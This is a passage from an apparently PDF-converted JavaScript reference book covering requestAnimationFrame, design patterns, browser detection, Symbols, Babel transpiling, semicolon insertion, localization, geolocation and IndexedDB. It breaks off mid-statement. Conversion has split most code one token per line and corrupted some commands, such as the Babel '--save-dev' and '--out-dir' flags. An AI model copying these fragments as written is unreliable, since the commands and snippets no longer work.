
}

)

(

)

;

Note that the last option (which fills in when no existing support was
found) will not return an id to be used in cancelAnimationFrame. There
is, however an [efficient
polyfill](https://gist.github.com/paulirish/1579671) that was written
which fixes this.

## Section 64.3: Cancelling an Animation

To cancel a call to requestAnimationFrame, you need the id it returned
from when it was last called. This is the parameter you use for
cancelAnimationFrame. The following example starts some hypothetical
animation then pauses it after one second.

*// stores the id returned from each call to requestAnimationFrame*

**var**

requestId

;

*// draw something*

**function**

draw

(

timestamp

)

{

*// do some animation*

*// request next frame*

start

(

)

;

}

*// pauses the animation*

**function**

pause

(

)

{

*// pass in the id returned from the last call to requestAnimationFrame*

cancelAnimationFrame

(

requestId

)

;

}

*// begin the animation*

**function**

start

(

)

{

*// store the id returned from requestAnimationFrame*

requestId

=

requestAnimationFrame

(

draw

)

;

}

*// begin now*

start

(

)

;

*// after a second, pause the animation*

setTimeout

(

pause

,

1000

)

;

# Chapter 65: Creational Design Patterns

Design patterns are a good way to keep your **code readable** and DRY.
DRY stands for **don\'t repeat yourself**. Below you could find more
examples about the most important design patterns.

## Section 65.1: Factory Functions

A factory function is simply a function that returns an object.
>
Factory functions do not require the use of the **new** keyword, but
can still be used to initialize an object, like a constructor.
>
Often, factory functions are used as API wrappers, like in the cases
of [jQuery](https://jquery.com/) and
[moment.js](http://momentjs.com/), so users do not need to use
**new**.
>
The following is the simplest form of factory function; taking
arguments and using them to craft a new object with the object
literal:

**function**

cowFactory

(

name

)

{

**return**

{

name

:

name

,

talk

:

**function**

(

)

{

console.

log

(

\'Moo, my name is \'

\+

**this**

.

name

)

;

}

,

}

;

}

**var**

daisy

=

cowFactory

(

\'Daisy\'

)

;

*// create a cow named Daisy*

daisy.

talk

(

)

;

*// \"Moo, my name is Daisy\"*

It is easy to define private properties and methods in a factory, by
including them outside of the returned object.
>
This keeps your implementation details encapsulated, so you can only
expose the public interface to your object.

**function**

cowFactory

(

name

)

{

**function**

formalName

(

)

{

**return**

name

\+

\' the cow\'

;

}

**return**

{

talk

:

**function**

(

)

{

console.

log

(

\'Moo, my name is \'

\+

formalName

(

)

)

;

}

,

}

;

}

**var**

daisy

=

cowFactory

(

\'Daisy\'

)

;

daisy.

talk

(

)

;

*// \"Moo, my name is Daisy the cow\"*

daisy.

formalName

(

)

;

*// ERROR: daisy.formalName is not a function*

The last line will give an error because the function formalName is
closed inside the cowFactory function. This is a closure.
>
Factories are also a great way of applying functional programming
practices in JavaScript, because they are functions.

## Section 65.2: Factory with Composition

[*\'Prefer composition over
inheritance\'*](http://programmers.stackexchange.com/questions/134097/why-should-i-prefer-composition-over-inheritance)
is an important and popular programming principle, used to assign
behaviors to objects, as opposed to inheriting many often unneeded
behaviors.
>
**Behaviour factories**

**var**

speaker

=

**function**

(

state

)

{

**var**

noise

=

state.

noise

\|\|

\'grunt\'

;

**return**

{

speak

:

**function**

(

)

{

console.

log

(

state.

name

\+

\' says \'

\+

noise

)

;

}

}

;

}

;

**var**

mover

=

**function**

(

state

)

{

**return**

{

moveSlowly

:

**function**

(

)

{

console.

log

(

state.

name

\+

\' is moving slowly\'

)

;

}

,

moveQuickly

:

**function**

(

)

{

console.

log

(

state.

name

\+

\' is moving quickly\'

)

;

}

}

;

}

;

**Object factories**

Version ≥ 6

**var**

person

=

**function**

(

name

,

age

)

{

**var**

state

=

{

name

:

name

,

age

:

age

,

noise

:

\'Hello\'

}

;

**return**

Object

.

assign

(

*// Merge our \'behaviour\' objects*

{

}

,

speaker

(

state

)

,

mover

(

state

)

)

;

}

;

**var**

rabbit

=

**function**

(

name

,

colour

)

{

**var**

state

=

{

name

:

name

,

colour

:

colour

}

;

**return**

Object

.

assign

(

{

}

,

mover

(

state

)

)

;

}

;

**Usage**

**var**

fred

=

person

(

\'Fred\'

,

42

)

;

fred.speak(); *// outputs: Fred says Hello* fred.moveSlowly(); *//
outputs: Fred is moving slowly*
>
**var** snowy = rabbit(\'Snowy\', \'white\'); snowy.moveSlowly(); *//
outputs: Snowy is moving slowly* snowy.moveQuickly(); *// outputs:
Snowy is moving quickly* snowy.speak(); *// ERROR: snowy.speak is not
a function*

## Section 65.3: Module and Revealing Module Patterns

**Module Pattern**
>
The Module pattern is a [creational and structural design
pattern](https://en.wikipedia.org/wiki/Module_pattern#Module_as_a_design_pattern)
which provides a way of encapsulating private members while producing
a public API. This is accomplished by creating an IIFE which allows us
to define variables only available in its scope (through closure)
while returning an object which contains the public API.
>
This gives us a clean solution for hiding the main logic and only
exposing an interface we wish other parts of our application to use.

**var**

Module

=

(

**function**

(

*/\* pass initialization data if necessary \*/*

)

{

*// Private data is stored within the closure*

**var**

privateData

=

1

;

*// Because the function is immediately invoked,*

*// the return value becomes the public API*

**var**

api

=

{

getPrivateData

:

**function**

(

)

{

**return**

privateData

;

}

,

getDoublePrivateData

:

**function**

(

)

{

**return**

api.

getPrivateData

(

)

\*

2

;

}

}

;

**return**

api

;

}

)

(

*/\* pass initialization data if necessary \*/*

)

;

**Revealing Module Pattern**
>
The Revealing Module pattern is a variant in the Module pattern. The
key differences are that all members (private and public) are defined
within the closure, the return value is an object literal containing
no function definitions, and all references to member data are done
through direct references rather than through the returned object.

**var**

Module

=

(

**function**

(

*/\* pass initialization data if necessary \*/*

)

{

*// Private data is stored just like before*

**var**

privateData

=

1

;

*// All functions must be declared outside of the returned object*

**var**

getPrivateData

=

**function**

(

)

{

**return**

privateData

;

}

;

**var**

getDoublePrivateData

=

**function**

(

)

{

*// Refer directly to enclosed members rather than through the returned
object*

**return**

getPrivateData

(

)

\*

2

;

}

;

*// Return an object literal with no function definitions*

**return**

{

getPrivateData

:

getPrivateData

,

getDoublePrivateData

:

getDoublePrivateData

}

;

}

)

(

*/\* pass initialization data if necessary \*/*

)

;

**Revealing Prototype Pattern**
>
This variation of the revealing pattern is used to separate the
constructor to the methods. This pattern allow us to use the
javascript language like a objected oriented language:

{width="7.486805555555556in"
height="7.459722222222222in"}

This code above should be in a separated file .js to be referenced in
any page that is needed. It can be used like this:

**var**

menuActive

=

**new**

NavigationNs.

active

(

\'ul.sidebar-menu li\'

,

5

)

;

menuActive.

setCurrent

(

)

;

## Section 65.4: Prototype Pattern

The prototype pattern focuses on creating an object that can be used
as a blueprint for other objects through prototypal inheritance. This
pattern is inherently easy to work with in JavaScript because of the
native support for prototypal inheritance in JS which means we don\'t
need to spend time or effort imitating this topology. **Creating
methods on the prototype**

**function**

Welcome

(

name

)

{

**this**

.

name

=

name

;

}

Welcome.

**prototype**

.

sayHello

=

**function**

(

)

{

**return**

\'Hello, \'

\+

**this**

.

name

\+

\'!\'

;

}

**var**

welcome

=

**new**

Welcome

(

\'John\'

)

;

welcome.

sayHello

(

)

;

*// =\Hello, John!*

**Prototypal Inheritance**
>
Inheriting from a \'parent object\' is relatively easy via the
following pattern
>
ChildObject.**prototype** = Object.create(ParentObject.**prototype**);
>
ChildObject.**prototype**.constructor = ChildObject;
>
Where ParentObject is the object you wish to inherit the prototyped
functions from, and ChildObject is the new Object you wish to put them
on.
>
If the parent object has values it initializes in its constructor you
need to call the parents constructor when initializing the child.
>
You do that using the following pattern in the ChildObject
constructor.

**function**

ChildObject

(

value

)

{

ParentObject.

call

(

**this**

,

value

)

;

}

A complete example where the above is implemented

**function**

RoomService

(

name

,

order

)

{

*// this.name will be set and made available on the scope of this
function*

Welcome.

call

(

**this**

,

name

)

;

**this**

.

order

=

order

;

}

*// Inherit \'sayHello()\' methods from \'Welcome\' prototype*

RoomService.

**prototype**

=

Object

.

create

(

Welcome.

**prototype**

)

;

*// By default prototype object has \'constructor\' property.*

*// But as we created new object without this property - we have to set
it manually,*

*// otherwise \'constructor\' property will point to \'Welcome\' class*

RoomService.

**prototype**

.

constructor

=

RoomService

;

RoomService.

**prototype**

.

announceDelivery

=

**function**

(

)

{

**return**

\'Your \'

\+

**this**

.

order

\+

\' has arrived!\'

;

}

RoomService.

**prototype**

.

deliverOrder

=

**function**

(

)

{

**return**

**this**

.

sayHello

(

)

\+

\' \'

\+

**this**

.

announceDelivery

(

)

;

}

**var**

delivery

=

**new**

RoomService

(

\'John\'

,

\'pizza\'

)

;

delivery.

sayHello

(

)

;

*// =\Hello, John!,*

delivery.

announceDelivery

(

)

;

*// Your pizza has arrived!*

delivery.

deliverOrder

(

)

;

*// =\Hello, John! Your pizza has arrived!*

## Section 65.5: Singleton Pattern

The Singleton pattern is a design pattern that restricts the
instantiation of a class to one object. After the first object is
created, it will return the reference to the same one whenever called
for an object.

**var**

Singleton

=

(

**function**

(

)

{

*// instance stores a reference to the Singleton*

**var**

instance

;

**function**

createInstance

(

)

{

*// private variables and methods*

**var**

\_privateVariable

=

\'I am a private variable\'

;

**function**

\_privateMethod

(

)

{

console.

log

(

\'I am a private method\'

)

;

}

**return**

{

*// public methods and variables*

publicMethod

:

**function**

(

)

{

console.

log

(

\'I am a public method\'

)

;

}

,

publicVariable

:

\'I am a public variable\'

}

;

}

**return**

{

*// Get the Singleton instance if it exists*

*// or create one if doesn\'t*

getInstance

:

**function**

(

)

{

**if**

(

!

instance

)

{

instance

=

createInstance

(

)

;

}

**return**

instance

;

}

}

;

}

)

(

)

;

**Usage:**
>
*// there is no existing instance of Singleton, so it will create one*
**var** instance1 = Singleton.getInstance();
>
*// there is an instance of Singleton, so it will return the reference
to this one* **var** instance2 = Singleton.getInstance();
console.log(instance1 === instance2); *// true*

## Section 65.6: Abstract Factory Pattern

The Abstract Factory Pattern is a creational design pattern that can
be used to define specific instances or classes without having to
specify the exact object that is being created.

{width="7.486805555555556in"
height="4.045138888888889in"}

# Chapter 66: Detecting browser

Browsers, as they have evolved, offered more features to JavaScript.
But often these features are not available in all browsers. Sometimes
they may be available in one browser, but yet to be released on other
browsers. Other times, these features are implemented differently by
different browsers. Browser detection becomes important to ensure that
the application you develop runs smoothly across different browsers
and devices.

## Section 66.1: Feature Detection Method

This method looks for the existence of browser specific things. This
would be more difficult to spoof, but is not guaranteed to be future
proof.

*// Opera 8.0+*

**var**

isOpera

=

(

!!

window.

opr

&&

!!

opr.

addons

)

\|\|

!!

window.

opera

\|\|

navigator.

userAgent

.

indexOf

(

\'

OPR/\'

)

\>=

0

;

*// Firefox 1.0+*

**var**

isFirefox

=

**typeof**

InstallTrigger

!==

\'undefined\'

;

*// At least Safari 3+: \"\[object HTMLElementConstructor\]\"*

**var**

isSafari

=

Object

.

**prototype**

.

toString

.

call

(

window.

HTMLElement

)

.

indexOf

(

\'Constructor\'

)

\>

0

;

*// Internet Explorer 6-11*

**var**

isIE

=

*/\*@cc_on!@\*/*

**false**

\|\|

!!

document.

documentMode

;

*// Edge 20+*

**var**

isEdge

=

!

isIE

&&

!!

window.

StyleMedia

;

*// Chrome 1+*

**var**

isChrome

=

!!

window.

chrome

&&

!!

window.

chrome

.

webstore

;

*// Blink engine detection*

**var**

isBlink

=

(

isChrome

\|\|

isOpera

)

&&

!!

window.

CSS

;

Successfully tested in:
>
Firefox 0.8 - 44
>
Chrome 1.0 - 48 Opera 8.0 - 34
>
Safari 3.0 - 9.0.3
>
IE 6 - 11
>
Edge - 20-25

Credit to [Rob W](http://stackoverflow.com/a/9851769/6194193)

## Section 66.2: User Agent Detection

  
  **\<browser** name                       **\>**   **\<version**
  -  

  

This method gets the user agent and parses it to find the browser. The
browser name and version are extracted from the user agent through a
regex. Based on these two, the **\>** is returned.
>
The four conditional blocks following the user agent matching code are
meant to account for differences in the user agents of different
browsers. For example, in case of opera, [since it uses Chrome
rendering engine](https://stackoverflow.com/a/17436191/5894241), there
is an additional step of ignoring that part.
>
Note that this method can be easily spoofed by a user.

{width="7.486805555555556in"
height="2.6756944444444444in"}

Credit to [kennebec](http://stackoverflow.com/a/2401861/6194193)

## Section 66.3: Library Method

An easier approach for some would be to use an existing JavaScript
library. This is because it can be tricky to guarantee browser
detection is correct, so it can make sense to use a working solution
if one is available.
>
One popular browser-detection library is
[Bowser](https://github.com/ded/bowser).
>
Usage example:

**if**

(

bowser.

msie

&&

bowser.

version

\>=

6

)

{

alert

(

\'IE version 6 or newer\'

)

;

}

**else**

**if**

(

bowser.

firefox

)

{

alert

(

\'Firefox\'

)

;

}

**else**

**if**

(

bowser.

chrome

)

{

alert

(

\'Chrome\'

)

;

}

**else**

**if**

(

bowser.

safari

)

{

alert

(

\'Safari\'

)

;

}

**else**

**if**

(

bowser.

iphone

\|\|

bowser.

android

)

{

alert

(

\'iPhone or Android\'

)

;

}

# Chapter 67: Symbols

## Section 67.1: Basics of symbol primitive type

Symbol is a new primitive type in ES6. Symbols are used mainly as
**property keys**, and one of its main characteristics is that they
are *unique*, even if they have the same description. This means they
will never have a name clash with any other property key that is a
symbol or string.

**const**

MY_PROP_KEY

=

Symbol

(

)

;

**const**

obj

=

{

}

;

obj

\[

MY_PROP_KEY

\]

=

\"ABC\"

;

console.

log

(

obj

\[

MY_PROP_KEY

\]

)

;

In this example, the result of

console.

log

would be

ABC

.

You can also have named Symbols like:

**const**

APPLE

=

Symbol

(

\'Apple\'

)

;

**const**

BANANA

=

Symbol

(

\'Banana\'

)

;

**const**

GRAPE

=

Symbol

(

\'Grape\'

)

;

Each of these values are unique and cannot be overridden.

  
  description
  

  

  
  Symbol.**for**
  

  

Providing an optional parameter () when creating primitive symbols can
be used for debugging but not to access the symbol itself (but see the
() example for a way to register/lookup global shared symbols).

## Section 67.2: Using Symbol.for() to create global, shared symbols

  
  Symbol.**for**
  

  

The method allows you to register and look up global symbols by name.
The first time it is called with a given key, it creates a new symbol
and adds it to the registry.

**let**

a

=

Symbol.

**for**

(

\'A\'

)

;

  -
  Symbol.**for**                                     (     \'A\'
   - 

  -

  -
  Symbol                                     (       \'A\'
  - - 

  -

The next time you call ), the *same symbol* will be returned instead
of a new one (in contrast to ) which would create a new, unique symbol
that happens to have the same description).

a

===

Symbol.

**for**

(

\'A\'

)

*// true*

but

a

===

Symbol

(

\'A\'

)

*// false*

## Section 67.3: Converting a symbol into a string

Unlike most other JavaScript objects, symbols are not automatically
converted into a string when performing concatenation.

**let**

apple

=

Symbol

(

\'Apple\'

)

\+

\'\'

;

*// throws TypeError!*

Instead, they have to be explicitly converted into a string when
necessary, (for example, to get a textual description of the symbol
that can be used in a debug message) using the toString method or the
String constructor.

**const**

APPLE

=

Symbol

(

\'Apple\'

)

;

**let**

str1

=

APPLE.

toString

(

)

;

*// \"Symbol(Apple)\"*

**let**

str2

=

String

(

APPLE

)

;

*// \"Symbol(Apple)\"*

# Chapter 68: Transpiling

Transpiling is the process of interpreting certain programming
languages and translating it to a specific target language. In this
context, transpiling will take [compile-to-JS
languages](https://github.com/jashkenas/coffeescript/wiki/list-of-languages-that-compile-to-js)
and translate them into the **target** language of JavaScript.

## Section 68.1: Introduction to Transpiling

**Examples**
>
**ES6/ES2015 to ES5 (via [Babel](https://babeljs.io/))**: This ES2015
syntax

*// ES2015 arrow function syntax*

\[

1

,

2

,

3

\]

.

map

(

n

=\>

n

\+

1

)

;

is interpreted and translated to this ES5 syntax:

*// Conventional ES5 anonymous function syntax*

\[

1

,

2

,

3

\]

.

map

(

**function**

(

n

)

{

**return**

n

\+

1

;

}

)

;

**CoffeeScript to JavaScript (via built-in CoffeeScript compiler)**:
This CoffeeScript

\# Existence

:

alert

\"I knew it!\"

**if**

elvis

?

is interpreted and translated to JavaScript:

**if**

(

**typeof**

elvis

!==

\"undefined\"

&&

elvis

!==

**null**

)

{

alert

(

\"I knew it!\"

)

;

}

**How do I transpile?**
>
Most compile-to-JavaScript languages have a transpiler **built-in**
(like in CoffeeScript or TypeScript). In this case, you may just need
to enable the language\'s transpiler via config settings or a
checkbox. Advanced settings can also be set in relation to the
transpiler.
>
For **ES6/ES2016-to-ES5 transpiling**, the most prominent transpiler
being used is [Babel](https://babeljs.io/).
>
**Why should I transpile?**
>
The most cited benefits include:
>
The ability to use newer syntax reliably
>
Compatibility among most, if not all browsers
>
Usage of missing/not yet native features to JavaScript via languages
like CoffeeScript or TypeScript

## Section 68.2: Start using ES6/7 with Babel

[Browser support for ES6](https://kangax.github.io/compat-table/es6/)
is growing, but to be sure your code will work on environments that
don\'t fully support it, you can use [Babel](https://babeljs.io/), the
ES6/7 to ES5 transpiler, [try it out!](https://babeljs.io/repl/)
>
If you would like to use ES6/7 in your projects without having to
worry about compatibility, you can use [Node](https://nodejs.org/en/)
and [Babel CLI](https://babeljs.io/docs/usage/cli/)
>
**Quick setup of a project with Babel for ES6/7 support**

1.  [Download](https://nodejs.org/en/download/) and install Node

2.  Go to a folder and create a project using your favourite command
    line tool

\~ npm init

3.  Install Babel CLI

\~ npm

**install**

\

save-dev

babel-cli

\~ npm

**install**

\

save-dev

babel-preset-es2015

  
  js   files, and then a                    dist      /   scripts
   -   

  

4.  Create a scripts folder to store your . folder where the transpiled
    fully compatible files will be stored.

  
  babelrc
  

  

5.  Create a . file in the root folder of your project, and write this
    on it

{

\"presets\"

:

\[

\"es2015\"

\]

}

  
  package.json
  

  

6.  Edit your file (created when you ran npm init) and add the build
    script to the scripts property:

{

\...

\"scripts\"

:

{

\...

,

\"build\"

:

\"babel scripts \out-dir dist/scripts\"

}

,

\...

}

7.  Enjoy [programming in ES6/7](https://babeljs.io/docs/learn-es2015/)

8.  Run the following to transpile all your files to ES5

\~ npm run build

For more complex projects you might want to take a look at
[Gulp](http://gulpjs.com/) or [Webpack](https://webpack.github.io/)

# Chapter 69: Automatic Semicolon Insertion - ASI

## Section 69.1: Avoid semicolon insertion on return statements

The JavaScript coding convention is to place the starting bracket of
blocks on the same line of their declaration:

**if**

(

\...

)

{

}

**function**

(

a

,

b

,

\...

)

{

}

Instead of in the next line:

**if**

(

\...

)

{

}

**function**

(

a

,

b

,

\...

)

{

}

This has been adopted to avoid semicolon insertion in return
statements that return objects:

**function**

foo

(

)

{

**return**

*// A semicolon will be inserted here, making the function return
nothing*

{

foo

:

\'foo\'

}

;

}

foo

(

)

;

*// undefined*

**function**

properFoo

(

)

{

**return**

{

foo

:

\'foo\'

}

;

}

properFoo

(

)

;

*// { foo: \'foo\' }*

In most languages the placement of the starting bracket is just a
matter of personal preference, as it has no real impact on the
execution of the code. In JavaScript, as you\'ve seen, placing the
initial bracket in the next line can lead to silent errors.

## Section 69.2: Rules of Automatic Semicolon Insertion

There are three basic rules of semicolon insertion:

1.  When, as the program is parsed from left to right, a token (called
    the *offending token*) is encountered that is not allowed by any
    production of the grammar, then a semicolon is automatically
    inserted before the offending token if one or more of the following
    conditions is true:

The offending token is separated from the previous token by at least
one LineTerminator. The offending token is }.

2.  When, as the program is parsed from left to right, the end of the
    input stream of tokens is encountered and the parser is unable to
    parse the input token stream as a single complete ECMAScript
    Program, then a semicolon is automatically inserted at the end of
    the input stream.

3.  When, as the program is parsed from left to right, a token is
    encountered that is allowed by some production of the grammar, but
    the production is a *restricted production* and the token would be
    the first token for a terminal or nonterminal immediately following
    the annotation \"\[no LineTerminator here\]\" within the restricted
    production (and therefore such a token is called a restricted
    token), and the restricted token is separated from the previous
    token by at least one LineTerminator, then a semicolon is
    automatically inserted before the restricted token.

However, there is an additional overriding condition on the preceding
rules: a semicolon is never inserted automatically if the semicolon
would then be parsed as an empty statement or if that semicolon would
become one of the two semicolons in the header of a **for** statement
(see 12.6.3).

**Source: [ECMA-262, Fifth Edition ECMAScript
Specification:](http://www.ecma-international.org/publications/standards/Ecma-262.htm)**

## Section 69.3: Statements aected by automatic semicolon insertion

  
  do                \-       while
    

  

empty statement **var** statement expression statement statement
**continue** statement **break** statement **return** statement
**throw** statement
>
**Examples:**
>
When the end of the input stream of tokens is encountered and the
parser is unable to parse the input token stream as a single complete
Program, then a semicolon is automatically inserted at the end of the
input stream.

a

=

b

++

c

*// is transformed to:*

a

=

b

;

++

c

;

x

++

y

*// is transformed to:*

x

;

++

y

;

**Array indexing/literals**

console.

log

(

\"Hello, World\"

)

\[

1

,

2

,

3

\]

.

join

(

)

*// is transformed to:*

console.

log

(

\"Hello, World\"

)

\[

(

1

,

2

,

3

)

\]

.

join

(

)

;

**Return statement:**

**return**

\"something\"

;

*// is transformed to*

**return**

;

\"something\"

;

# Chapter 70: Localization

+-+-+
| **Paramater**  | **Details**                                     |
+==================+===================================================+
| weekday          | \"narrow\", \"short\", \"long\"                   |
+-+-+
| era              | \"narrow\", \"short\", \"long\"                   |
+-+-+
| year             | \"numeric\", \"2-digit\"                          |
+-+-+
| month            | \"numeric\", \"2-digit\", \"narrow\", \"short\",  |
|                  | \"long\"                                          |
+-+-+
| day              | \"numeric\", \"2-digit\"                          |
+-+-+
| hour             | \"numeric\", \"2-digit\"                          |
+-+-+
| minute           | \"numeric\", \"2-digit\"                          |
+-+-+
| second           | \"numeric\", \"2-digit\"                          |
+-+-+

timeZoneName \"short\", \"long\"

## Section 70.1: Number formatting

Number formatting, grouping digits according to the localization.
>
**const** usNumberFormat = **new** Intl.NumberFormat(\'en-US\');
**const** esNumberFormat = **new** Intl.NumberFormat(\'es-ES\');
>
**const** usNumber = usNumberFormat.format(99999999.99); *//
\"99,999,999.99\"* **const** esNumber =
esNumberFormat.format(99999999.99); *// \"99.999.999,99\"*

## Section 70.2: Currency formatting

Currency formatting, grouping digits and placing the currency symbol
according to the localization.
>
**const** usCurrencyFormat = **new** Intl.NumberFormat(\'en-US\',
{style: \'currency\', currency: \'USD\'}) **const** esCurrencyFormat =
**new** Intl.NumberFormat(\'es-ES\', {style: \'currency\', currency:
\'EUR\'})
>
**const** usCurrency = usCurrencyFormat.format(100.10); *//
\"\$100.10\"* **const** esCurrency = esCurrencyFormat.format(100.10);
*// \"100.10* €*\"*

## Section 70.3: Date and time formatting

Date time formatting, according to the localization.
>
**const** usDateTimeFormatting = **new**
Intl.DateTimeFormat(\'en-US\'); **const** esDateTimeFormatting =
**new** Intl.DateTimeFormat(\'es-ES\');
>
**const** usDate = usDateTimeFormatting.format(**new**
Date(\'2016-07-21\')); *// \"7/21/2016\"* **const** esDate =
esDateTimeFormatting.format(**new** Date(\'2016-07-21\')); *//
\"21/7/2016\"*

# Chapter 71: Geolocation

## Section 71.1: Get updates when a user\'s location changes

You can also receive regular updates of the user\'s location; for
example, as they move around while using a mobile device. Location
tracking over time can be very sensitive, so be sure to explain to the
user ahead of time why you\'re requesting this permission and how
you\'ll use the data.

**if**

(

navigator.

geolocation

)

{

*//after the user indicates that they want to turn on continuous
location-tracking*

**var**

watchId

=

navigator.

geolocation

.

watchPosition

(

updateLocation

,

geolocationFailure

)

;

}

**else**

{

console.

log

(

\"Geolocation is not supported by this browser.\"

)

;

}

**var**

updateLocation

=

**function**

(

position

)

{

console.

log

(

\"New position at: \"

\+

position.

coords

.

latitude

\+

\", \"

\+

position.

coords

.

longitude

)

;

}

;

To turn off continuous updates:

navigator.

geolocation

.

clearWatch

(

watchId

)

;

## Section 71.2: Get a user\'s latitude and longitude

**if**

(

navigator.

geolocation

)

{

navigator.

geolocation

.

getCurrentPosition

(

geolocationSuccess

,

geolocationFailure

)

;

}

**else**

{

console.

log

(

\"Geolocation is not supported by this browser.\"

)

;

}

*// Function that will be called if the query succeeds*

**var**

geolocationSuccess

=

**function**

(

pos

)

{

console.

log

(

\"Your location is \"

\+

pos.

coords

.

latitude

\+

\"

°

, \"

\+

pos.

coords

.

longitude

\+

\"

°

.\"

)

;

}

;

*// Function that will be called if the query fails*

**var**

geolocationFailure

=

**function**

(

err

)

{

console.

log

(

\"ERROR (\"

\+

err.

code

\+

\"): \"

\+

err.

message

)

;

}

;

## Section 71.3: More descriptive error codes

In the event that geolocation fails, your callback function will
receive a PositionError object. The object will include an attribute
named code that will have a value of 1, 2, or 3. Each of these numbers
signifies a different kind of error;

  -
  getErrorCode()     function below takes the      PositionError.code
  -  

  -

the as its only argument and returns a string with the name of the
error that occurred.

**var**

getErrorCode

=

**function**

(

err

)

{

**switch**

(

err.

code

)

{

**case**

err.

PERMISSION_DENIED

:

**return**

\"PERMISSION_DENIED\"

;

**case**

err.

POSITION_UNAVAILABLE

:

**return**

\"POSITION_UNAVAILABLE\"

;

**case**

err.

TIMEOUT

:

**return**

\"TIMEOUT\"

;

**default**

:

**return**

\"UNKNOWN_ERROR\"

;

}

}

;

It can be used in

geolocationFailur

e

(

)

like so:

**var**

geolocationFailure

=

**function**

(

err

)

{

console.

log

(

\"ERROR (\"

\+

getErrorCode

(

err

)

\+

\"): \"

\+

err.

message

)

;

}

;

# Chapter 72: IndexedDB

## Section 72.1: Opening a database

Opening a database is an asynchronous operation. We need to send a
request to open our database and then listen for events so we know
when it\'s ready.
>
We\'ll open a DemoDB database. If it doesn\'t exist yet, it will get
created when we send the request.
>
The 2 below says that we\'re asking for version 2 of our database.
Only one version exists at any time, but we can use the version number
to upgrade old data, as you\'ll see.

**var**

db

=

**null**

,

*// We\'ll use this once we have our database*

request

=

window.

indexedDB

.

open

(

